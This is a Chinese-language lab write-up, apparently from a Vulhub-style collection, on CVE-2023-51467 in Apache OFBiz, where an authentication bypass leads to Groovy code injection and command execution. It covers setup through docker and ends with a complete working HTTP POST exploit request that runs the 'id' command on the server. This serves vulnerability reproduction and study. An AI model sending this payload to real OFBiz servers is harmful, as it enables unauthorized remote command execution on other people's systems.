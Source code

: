 # Apache OFBiz 鉴权绕过导致命令执行 CVE-2023-51467

## 漏洞描述

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

这个漏洞的原因是对于[CVE-2023-49070](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-49070)的不完全修复。在Apache OFBiz 18.12.10版本中，官方移除了可能导致RCE漏洞的XMLRPC组件，但没有修复权限绕过问题。来自长亭科技的安全研究员利用这一点找到了另一个可以导致RCE的方法：Groovy表达式注入。

参考连接：

- [https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa](https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa)
- [https://xz.aliyun.com/t/13211](https://xz.aliyun.com/t/13211)
- [https://y4tacker.github.io/](https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/)

## 环境搭建

Vulhub 执行如下命令启动一个Apache OfBiz 18.12.10服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://your-ip:8443/accounting`查看到登录页面，说明环境已启动成功。

如果是非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain 60.204.216.3 not accepted to prevent host header injection. You need to set host-headers-allowed property in security.properties file.
```

![](images/Apache%20OFBiz%20鉴权绕过导致命令执行%20CVE-2023-51467/image-20240104105738488.png)

## 漏洞复现

直接发送如下请求即可使用Groovy脚本执行`id`命令：

> Host: localhost

```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

groovyProgram=throw+new+Exception('id'.execute().text);
```

![](images/Apache%20OFBiz%20鉴权绕过导致命令执行%20CVE-2023-51467/image-20240104105846768.png)
